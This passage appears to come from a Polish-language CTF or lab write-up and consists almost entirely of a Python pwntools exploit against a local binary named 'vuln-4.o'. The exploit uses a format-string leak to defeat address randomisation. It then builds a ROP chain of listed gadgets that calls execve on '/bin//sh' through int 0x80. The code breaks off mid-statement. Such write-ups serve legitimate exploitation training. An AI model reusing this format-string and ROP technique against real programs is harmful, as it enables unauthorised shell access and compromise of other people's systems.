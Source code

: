 


Ostatecznie exploit wygląda następująco.


```python=
#!/usr/bin/env python3

from pwn import *


############### IN USAGE ## #################
# 0x0006a883 : add al, 0x8b ; inc eax ; pop eax ; ret
# 0x0001fc5e : pop edx ; pop ebx ; pop esi ; ret
# 0x0000301e : pop ebx ; ret
# 0x0001de41 : pop ecx ; add al, 0xf6 ; ret
# 0x00004862 : int 0x80


def set_eax(eax):
    return p32(offset + 0x0006a883) + p32(eax)

def set_edx_ebx(edx, ebx):
    return p32(offset + 0x0001fc5e) + p32(edx) + p32(ebx) + p32(0xfadeface)

def set_ebx(val):
    return p32(offset + 0x0000301e) + p32(val)

def set_ecx(val):
    return p32(offset + 0x0001de41) + p32(val)

def int80():
    return p32(offset + 0x00004862)


p = process('./vuln-4.o')

p.sendline("%p" * 7)

data = p.readline()

data = data.split(b"0x")

for i in range(len(data)):
    log.info("{} {}".format(i, data[i]))

offset = int(data[3],16) - 0x00003f90

log.info("START_OF_TEXT: 0x%08x" % offset)

buffor = int(data[1],16) - 0xd4

log.info("BUFOR: 0x%08x" % buffor)

padding_len = 28

shellcode = b''.join([
    p32(u32('/bin')),
    p32(u32('//sh')),
    p32(0),
    b"A" * (padding_len - 4 * 3),
    set_ecx(0x0),
    set_eax(0xb),
    set_edx_ebx(0x0, buffor),
    int80()
```